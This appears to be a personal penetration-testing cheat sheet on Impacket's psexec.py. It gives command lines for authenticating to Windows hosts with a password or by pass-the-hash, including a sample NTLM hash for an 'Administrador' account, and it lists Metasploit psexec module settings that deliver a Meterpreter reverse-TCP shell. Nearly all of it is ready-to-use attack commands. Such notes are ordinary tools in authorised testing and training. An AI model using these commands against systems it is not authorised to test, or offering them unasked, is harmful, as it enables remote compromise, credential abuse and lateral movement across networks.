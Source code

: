 

# usage 
```bash
psexec.py USUERNAME:PASSWORD@IP 


# pass hash
psexec.py USUERNAME:@IP -hashes HASH # need full NTLM hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b73e1a325df8ca7bd82063457391964 cs.org/Administrador@192.168.200.129

psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP 
#  creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe

# flags
-hashes # passhash


```


## psexec over msfconsole
```ruby
use windows/smb/psexec
set rhosts TARGET IP
set smbdomain DOMAIN
set smbpass and smbuser
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```


---
Tags: #psexec #impackets #smb #passhash
Resources: [Impacket](https://github.com/fortra/impacket)